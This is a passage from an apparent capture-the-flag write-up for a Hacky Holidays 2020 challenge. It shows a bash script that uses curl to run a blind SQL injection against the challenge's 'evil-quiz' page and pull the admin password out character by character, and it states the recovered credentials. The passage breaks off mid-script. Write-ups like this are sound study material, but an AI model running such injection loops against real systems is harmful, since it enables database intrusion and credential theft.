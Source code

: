   ```bash
                asciUser+=" ";
                asciCode=97;
                break;
            fi

        done
    

    done

    echo -e "++++ USERNAME IN DECIMAL IS: $asciUser ++++";

   ```
    ![IMAGE](/assets/img/posts/hackyholiday2020/day9/day-09-6.png)

    Scripts says the username is: **97 100 109 105 110**, which is **`admin`**.

    Similarly, Used quite similar script to find out the password.
    The password was **`S3creT_p4ssw0rd-$`**

    ```bash
    passwordLength=17;
    asciPass="";
    asciCode=32;
    for((i=1;i<=$passwordLength;i++)); do
        echo "Checking char $i aginst Ascii code:- ";
        while [ 1 ]; do
            echo -n "$asciCode ";
            query="' AND (ascii(substr((select password from admin limit 0,1) ,$i,1))) = $asciCode # ";
            cookie=$(curl -i -s "https://hackyholidays.h1ctf.com/evil-quiz" | grep session= | cut -d= -f2 | cut -d\; -f1);
            curl -i -s -k -X "POST" -b "session=$cookie" --data-binary "name=$query" "https://hackyholidays.h1ctf.com/evil-quiz" > /dev/null;
            iscorrect=$(curl -i -s -L -X "POST" -b "session=$cookie" --data-binary "ques_1=0&ques_2=0&ques_3=0" "https://hackyholidays.h1ctf.com/evil-quiz/start" |  grep "There is" | cut -d \> -f2 | cut -d " " -f3);
            if [ $(echo $iscorrect) = 0 ]; then
                